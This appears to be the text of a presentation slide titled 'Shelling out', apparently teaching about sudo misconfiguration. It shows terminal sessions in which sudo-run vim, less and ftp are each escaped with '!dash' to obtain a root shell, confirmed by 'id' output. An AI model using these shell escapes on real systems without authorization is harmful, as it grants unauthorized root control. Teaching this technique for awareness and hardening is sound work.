

# Shelling out
% sudo vim

~                     VIM - Vi IMproved
~
~                      version 7.4.576
~                  by Bram Moolenaar et al.
					0,0-1         All
:!dash
# id
uid=0(root) gid=0(root) groups=0(root)
% sudo less /etc/hostname

diablo
/etc/hostname (END)
!dash
# id
uid=0(root) gid=0(root) groups=0(root)
% sudo ftp
ftp> !dash
# id
uid=0(root) gid=0(root) groups=0(root)